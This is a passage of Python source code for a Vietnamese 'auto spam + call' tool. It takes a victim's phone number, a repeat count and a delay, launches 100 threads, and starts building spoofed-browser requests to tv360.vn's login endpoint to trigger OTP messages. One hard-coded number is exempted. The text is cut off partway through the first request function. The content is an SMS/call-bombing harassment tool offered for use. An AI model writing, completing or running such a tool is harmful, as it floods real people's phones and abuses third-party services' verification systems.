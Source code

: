 
import requests, os, time, sys
from concurrent.futures import ThreadPoolExecutor
from time import sleep
xanhla = '\033[1;32m'
trang = '\033[1;37m'
do = '\033[1;31m'
vang = '\033[1;33m'
xanhnhat = '\033[1;36m'
def banner():
    os.system('cls' if os.name == 'nt' else 'clear')
    banner = f"""
\033[1;31m███╗░░░███╗░█████╗░███╗░░██╗██╗░░██╗        ██████╗░░█████╗░███╗░░██╗░██████╗░
\033[1;34m████╗░████║██╔══██╗████╗░██║██║░░██║        ██╔══██╗██╔══██╗████╗░██║██╔════╝░
\033[1;33m██╔████╔██║███████║██╔██╗██║███████║.       ██║░░██║███████║██╔██╗██║██║░░██╗░
\033[1;32m██║╚██╔╝██║██╔══██║██║╚████║██╔══██║.       ██║░░██║██╔══██║██║╚████║██║░░╚██╗
\033[1;35m██║░╚═╝░██║██║░░██║██║░╚███║██║░░██║.       ██████╔╝██║░░██║██║░╚███║╚██████╔╝
\033[1;31m╚═╝░░░░░╚═╝╚═╝░░╚═╝╚═╝░░╚══╝╚═╝░░╚═╝.       ╚═════╝░╚═╝░░╚═╝╚═╝░░╚══╝░╚═════╝░\n
\033[1;36m╔══════════════════════════════════════════════════════╗
\033[1;33m║\033[1;31m🔥 BY TOOL : {xanhla}ManhDang                                                              
\033[1;33m║\033[1;32m🔥 BOX ZALO : {vang}                                                                                        
\033[1;33m║\033[1;34m🔥 \033[1;35mTOOL AUTO SPAM + CALL                                                                                                         
\033[1;33m╚══════════════════════════════════════════════════════╝
"""
    for x in banner:
        sys.stdout.write(x)
        sys.stdout.flush()
        sleep(0.00180)
banner()
# print('─'*50)
sdt = input(f'NHẬP SỐ ĐIỆN THOẠI: ')
if sdt == '0834617174':
    print(f'Số Này Không Thể Spam !!!')
    quit()
spam = int(input(f'SPAM BAO NHIÊU LẦN: '))
delay = int(input(f'DELAY SPAM: '))
print('─'*50)
threading = ThreadPoolExecutor(max_workers=int(100))
def tv360(sdt):
    headers = {
        'authority': 'tv360.vn',
        'accept': 'application/json, text/plain, */*',
        'accept-language': 'vi-VN,vi;q=0.9,fr-FR;q=0.8,fr;q=0.7,en-US;q=0.6,en;q=0.5,ja;q=0.4',
        'content-type': 'application/json',
        'origin': 'https://tv360.vn',
        'referer': 'https://tv360.vn/login?r=https%3A%2F%2Ftv360.vn%2F',
        'sec-ch-ua': '"Not_A Brand";v="99", "Google Chrome";v="109", "Chromium";v="109"',
        'sec-ch-ua-mobile': '?0',
        'sec-ch-ua-platform': '"Windows"',
        'user-agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.0.0 Safari/537.36',
    }
    json_data = {
        'msisdn': sdt,
    }
